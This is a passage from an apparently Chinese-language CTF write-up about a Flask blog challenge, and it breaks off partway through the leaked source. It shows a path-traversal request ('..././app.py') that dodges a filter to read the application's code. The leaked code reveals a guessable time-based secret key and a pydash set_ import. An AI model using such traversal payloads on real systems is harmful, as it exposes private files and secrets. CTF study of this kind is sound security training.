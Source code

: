 读 `/flag` 返回读取文件时发生错误，不让直接读

`GET /article?file=articles/..././app.py` 拿到 app.py

```python
from flask import *
import time,os,json,hashlib
from pydash import set_
from waf import pwaf,cwaf

app = Flask(__name__)
app.config[&#39;SECRET_KEY&#39;] = hashlib.md5(str(int(time.time())).encode()).hexdigest()

users = {&#34;testuser&#34;: &#34;password&#34;}
BASE_DIR = &#39;/var/www/html/myblog/app&#39;

articles = {
    1: &#34;articles/article1.txt&#34;,
    2: &#34;articles/article2.txt&#34;,
    3: &#34;articles/article3.txt&#34;
}

friend_links = [
    {&#34;name&#34;: &#34;bkf1sh&#34;, &#34;url&#34;: &#34;https://ctf.org.cn/&#34;},
    {&#34;name&#34;: &#34;fushuling&#34;, &#34;url&#34;: &#34;https://fushuling.com/&#34;},
    {&#34;name&#34;: &#34;yulate&#34;, &#34;url&#34;: &#34;https://www.yulate.com/&#34;},
    {&#34;name&#34;: &#34;zimablue&#34;, &#34;url&#34;: &#34;https://www.zimablue.life/&#34;},
    {&#34;name&#34;: &#34;baozongwi&#34;, &#34;url&#34;: &#34;https://baozongwi.xyz/&#34;},
]

class User():
    def __init__(self):
        pass

user_data = User()
@app.route(&#39;/&#39;)
def index():
    if &#39;username&#39; in session:
        return render_template(&#39;blog.html&#39;, articles=articles, friend_links=friend_links)
    return redirect(url_for(&#39;login&#39;))

@app.route(&#39;/login&#39;, methods=[&#39;GET&#39;, &#39;POST&#39;])
def login():
    if request.method == &#39;POST&#39;:
        username = request.form[&#39;username&#39;]
        password = request.form[&#39;password&#39;]
        if username in users and users[username] == password:
            session[&#39;username&#39;] = username
            return redirect(url_for(&#39;index&#39;))
        else:
            return &#34;Invalid credentials&#34;, 403
    return render_template(&#39;login.html&#39;)

@app.route(&#39;/register&#39;, methods=[&#39;GET&#39;, &#39;POST&#39;])
def register():
    if request.method == &#39;POST&#39;:
        username = request.form[&#39;username&#39;]
        password = request.form[&#39;password&#39;]
        users[username] = password
        return redirect(url_for(&#39;login&#39;))
    return render_template(&#39;register.html&#39;)


@app.route(&#39;/change_password&#39;, methods=[&#39;GET&#39;, &#39;POST&#39;])
def change_password():
```